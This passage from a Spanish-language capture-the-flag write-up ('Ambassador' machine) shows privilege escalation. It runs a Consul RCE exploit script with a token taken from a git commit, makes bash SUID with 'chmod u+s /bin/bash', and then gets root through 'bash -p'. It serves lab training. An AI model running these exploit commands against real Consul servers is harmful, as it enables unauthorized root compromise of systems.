 una vez pasando el script si lo analizamos vemos que no es complejo su uso simplemente tenemos que pasarle el token que vimos en el commit y un comando deseado a ejecutar a nivel del sistema
 
![](/assets/img/commons/Ambassador/terminal9.png)

```console
python3 consul_rce.py -th 127.0.0.1 -tp 8500 -ct <CONSUL_TOKEN> -c "/bin/bash /tmp/pwn.sh"
```
por lo tanto quedaría de la siguiente forma ya con nuestro token del commit y en -c 'command' como esta con permisos de root al ejecutar el exploit quiero activar los permisos SUID a la bash 
```console
python3 consul_rce.py -th 127.0.0.1 -tp 8500 -ct bb03b43b-1d81-d62b-24b5-39540ee469b5 -c "chmod u+s /bin/bash"
```
![](/assets/img/commons/Ambassador/terminal10.png)

vemos que ya tenemos permisos SUID a la bash, solo ejecutamos bas -p (-p de privilege) y estamos ya como el usuario root y otra máquina mas hecha y apuntada 

![](/assets/img/commons/Ambassador/terminal11.png)
